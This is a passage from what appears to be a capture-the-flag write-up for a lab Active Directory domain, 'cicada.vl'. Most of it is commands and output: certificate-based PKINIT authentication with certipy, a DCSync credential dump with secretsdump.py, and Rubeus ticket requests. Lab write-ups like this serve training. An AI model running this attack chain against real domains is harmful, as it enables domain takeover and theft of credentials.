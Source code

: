 ```
echo -ne "MIACAQ..." | base64 -d > cert.p12
```

Now we can authenticate via PKINIT:

```
certipy auth -pfx cert.p12 -dc-ip 10.10.104.125 -domain cicada.vl
export KRB5CCNAME=dc-jpq225.ccache

[*] Using principal: dc-jpq225$@cicada.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc-jpq225.ccache'
[*] Trying to retrieve NT hash for 'dc-jpq225$'
[*] Got hash for 'dc-jpq225$@cicada.vl': aad3b435b51404eeaad3b435b51404ee:***
```

We use the resulting ticket to perform a dcsync attack:

```
export KRB5CCNAME=dc-jpq225.ccache
secretsdump.py -k -no-pass cicada.vl/dc-jpq225\$@cicada.vl@dc-jpq225.cicada.vl -just-dc

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0...
```

Finally you can get a ticket for the administrator user and then WinRM to the machine to read the flag.

If you want to do it without the domain join, you need to still run the VPN on Windows, setup the DNS and then request a TGT and a service ticket for RPCSS (otherwise you'd get "The RPC server is unavailable"):

```
Rubeus.exe asktgt /user:rosie.powell /domain:cicada.vl /password:*** /dc:10.10.104.125 /ptt /nowrap

Rubeus.exe asktgs /service:RPCSS/dc-jpq225.cicada.vl /dc:10.10.104.125 /ptt /ticket:doI...
...
klist

#0>     Client: rosie.powell @ CICADA.VL
        Server: krbtgt/cicada.vl @ CICADA.VL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 10/4/2024 4:48:38 (local)
        End Time:   10/4/2024 14:48:38 (local)
        Renew Time: 10/11/2024 4:48:38 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

#1>     Client: rosie.powell @ CICADA.VL
        Server: RPCSS/dc-jpq225.cicada.vl @ CICADA.VL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 10/4/2024 4:48:56 (local)
        End Time:   10/4/2024 14:48:38 (local)
        Renew Time: 10/11/2024 4:48:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```